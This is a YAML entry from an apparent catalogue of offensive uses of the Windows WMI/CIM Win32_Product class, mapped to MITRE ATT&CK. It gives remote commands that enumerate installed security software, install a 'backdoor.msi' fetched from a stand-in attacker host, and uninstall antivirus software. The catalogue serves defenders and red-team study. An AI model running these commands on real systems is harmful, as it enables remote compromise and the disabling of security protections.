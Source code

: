```yaml
---
Name: Win32_Product
Description: Represent products as they are installed by MSI
Updated: 2023-08-25
Toolsets:
  - Builtin
  - CIMSession
Commands:
  - Command: Get-CimInstance -ClassName Win32_Product -CimSession $s | Select-Object Caption,Vendor,Version,InstallLocation
    Description: List installed software
    Usecases:
      - Perform reconnaissance on installed security software
    Function: Manage
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
    MitreAttack:
      - T1218.007
  - Command: 'Invoke-CimMethod -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation="https://hacker.com/backdoor.msi"; Options=""; AllUsers=$true} -CimSession $s'
    Description: Install software
    Usecases:
      - Launch and install malicious .msi package
    Function: Processes
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
      - .msi file needs to be available on the target host
    MitreAttack:
      - T1218.007
  - Command: 'Get-CimInstance Win32_Product -Filter ''Caption="Antivirus Software caption"'' -CimSession $s | Remove-CimInstance'
    Description: Uninstall software
    Usecases:
      - Remove security software
    Function: Processes
    Comments:
      - 'Create CimSession `$s` using [New-CimSession](../../Cmdlets/New-CimSession/)'
      - 'Namespace: `ROOT\Cimv2`'
    MitreAttack:
      - T1218.007
      - T1562.001
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

